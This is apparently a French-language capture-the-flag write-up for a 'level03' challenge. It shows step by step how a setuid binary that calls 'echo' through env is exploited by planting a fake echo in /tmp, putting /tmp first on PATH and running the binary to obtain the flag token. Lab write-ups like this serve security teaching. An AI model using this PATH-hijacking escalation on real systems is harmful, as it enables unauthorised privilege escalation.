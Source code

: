 une fois connecté : 
ls -l
-rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 level03

on remarque que le user flag03 à les droits d'exec

strings level03

...
/usr/bin/env echo Exploit me
...

le fichier execute un echo

on cree un faux echo qui remplacera et executera getflag

echo "getflag" > /tmp/echo

on le rend executable:
chmod 755 /tmp/echo

on rajoute /tmp en début de notre PATH:
PATH=/tmp:$PATH

et on execute level03
./leve03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus